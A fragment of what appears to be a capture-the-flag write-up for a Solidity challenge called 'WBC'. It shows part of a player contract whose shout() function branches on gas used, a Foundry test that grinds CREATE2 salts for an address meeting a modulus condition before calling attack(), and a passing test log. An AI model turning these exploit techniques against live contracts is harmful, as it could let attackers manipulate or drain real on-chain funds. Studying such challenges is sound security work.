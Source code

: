 ```solidity

    function shout() external view returns (bytes memory) {
        if (remainingGas - gasleft() < 25000) {
            return abi.encodePacked("I'm the best");
        } else {
            return abi.encodePacked("We are the champion!");
        }
    }
}
```

### Test contract

```solidity
function testExploit() external {
    bytes32 bytecode = keccak256(abi.encodePacked(type(Player).creationCode, uint256(uint160(address(wbc)))));

    Player p;
    for (uint256 i;; ++i) {
        address addr = computeCreate2Address(bytes32(i), bytecode);

        if (uint256(uint160(addr)) % 100 == 10) {
            p = new Player{salt: bytes32(i)}(address(wbc));
            break;
        }
    }

    p.attack();
}
```

### Test Result

```
Ran 1 test for test/WBC.t.sol:WBCTest
[PASS] testExploit() (gas: 322522)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.58ms (1.40ms CPU time)

Ran 1 test suite in 232.20ms (7.58ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
